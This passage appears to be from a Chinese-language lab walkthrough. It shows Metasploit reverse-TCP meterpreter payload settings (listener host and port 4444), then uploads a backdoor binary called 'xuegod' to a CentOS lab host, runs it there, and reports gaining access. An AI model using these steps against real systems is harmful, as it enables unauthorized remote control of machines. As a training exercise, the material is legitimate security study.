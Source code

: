 ```shell
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.31.50.101    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```



将xuegod后门上传至Centos:192.168.111.142并运行：

```
[root@localhost ~]# ls | grep xuegod
xuegod
[root@localhost ~]# chmod +x xuegod
[root@localhost ~]# ./xuegod
```

![image-20211015173120426](/assets/image-20211015173120426.png)



成功获取Centos:`192.168.111.142`权限

![image-20211015172859513](/assets/image-20211015172859513.png)
